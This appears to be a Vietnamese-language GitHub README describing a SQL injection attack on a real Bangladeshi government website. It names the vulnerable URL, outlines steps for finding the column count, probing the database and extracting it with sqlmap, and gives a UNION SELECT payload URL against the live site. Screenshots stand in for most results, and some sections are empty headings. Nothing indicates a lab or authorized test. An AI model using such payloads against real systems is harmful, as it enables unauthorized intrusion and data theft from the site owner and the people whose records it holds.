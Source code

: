 # TỔNG QUAN # 

Kiểm tra trên web "BGISP" `http://www.gis.gov.bd/en/gis_file.php?id=9`

![image](https://github.com/user-attachments/assets/85c01fa4-b13a-486c-8069-8d21abe91987)

## CÁC BƯỚC

* [Dò tìm số cột](#dò-tìm-số-cột)
* [Kiểm tra database, version, user](#kiểm-tra-database-version-user)
* [Trích xuất cơ sở dữ liệu](#trích-xuất-cơ-sở-dữ-liệu)
* [Sử dụng `sqlmap`](#sử-dụng-sqlmap)

## Dò tìm số cột

![image](https://github.com/user-attachments/assets/74035a99-c8ad-4652-a1c6-30c8e4026d84)

![image](https://github.com/user-attachments/assets/31500647-5000-43f6-ab3d-a494441d5a1f)

![image](https://github.com/user-attachments/assets/44c99e22-59f6-46c5-aaab-d7f7b7743c18)

## Kiểm tra database, version, user 

## Trích xuất cơ sở dữ liệu 

`http://www.gis.gov.bd/en/gis_file.php?id=-9+UNION+SELECT+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100,101,102,103`

![image](https://github.com/user-attachments/assets/ea9e1175-6d63-4bce-996a-ff6c97022958)
